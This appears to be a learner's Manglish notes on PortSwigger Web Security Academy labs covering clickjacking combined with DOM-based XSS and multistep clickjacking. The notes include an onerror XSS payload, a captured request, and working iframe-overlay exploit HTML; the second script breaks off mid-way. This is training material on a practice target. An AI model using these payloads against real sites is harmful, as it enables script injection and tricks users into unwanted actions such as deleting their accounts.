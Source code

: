         Lab-4(Exploiting clickjacking vulnerability to trigger DOM-based XSS)
-->ivide feedback enna oru page aan test chynath
-->ivide feedback il 4 input aan kodukendath name,emal,subject,message.
-->ivide name il namal enth name kodukuno ath page il thazhe aayi reflect chyunund.so aa reflect chythath namal inspect chyumbol aa name html elementil store aayi kidakunund. means domil save aayikidakunund.so ee inputil evidengilum xss kandupidikan patiyal dom xss aan
-->name field il <img src="x" onerror="alert(3)" > enn koduthit baaki ella input ilum enthengilum koduth submit chyumbol namuk xss trigger aakunund
-->ivide 4 input und so athil ellathilum fill ayale submit button namal clickjack chyan patoo
-->so oru form submit chyuka enit nerthe pole change requets method click chyth /POST method /GET aaki send chyuka apol :
      `GET /feedback/submit?csrf=4RrNvd3UwxjKaufwOq8yM7Xw9t6Bdojj&name=josu&email=josu%40josu.com&subject=josdj&message=halloo`

ennan undavuka.ingane send adichal error varum so feedback/ in sheshamulla /submit enn path remove chythit chyuka apol response 200OK enn kanam so namuk iframe il thane src il url inte last aayi ee oro parameter inum value koduth nerthepole attack chyam
-->ini script chyam :
     <style>
	iframe {
		 position:relative;
            width:500px;
            height: 500px;
            opacity: 0.5;
            z-index: 2;
    }
	div {
		 position:absolute;
                 top:420px;
                 left:80px;
                 z-index: 1;
     }
</style>
<div>click me</div>
<iframe
src="https://0ae700310356d791c5d1da390093006b.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

-->ivide src ile value nok ella input ilum namal thane url il value alredy koduth ini victim click me enna wordil click chyumbol ee domxss print function trigger chyikum

==============================================================

                  Lab-5(Multistep clickjacking)
-->ivide namal login chyuka. avide page il delete account enna option und so ath click chyumbol direct delete aakila pakaram oru confirmation message kanikum so athil yes adichale delete aaku
-->so multistep aayan ivide deletion nadakunath.so athupole namal clickjacking chyanam enale nadaku
-->so rand button adupich click chythale delete aaku so aa rand buttonum vere position il aan varunath
-->athinanusarich namal script chyanam :
      <style>
	iframe {
		 position:relative;
             width:600px;
             height: 600px;
             opacity: 0.5;
            z-index: 2;
	}
   .firstClick, .secondClick {
		  position:absolute;
          top:500px;
          left:80px;
          z-index: 1; 
	}
   .secondClick {
		top:300;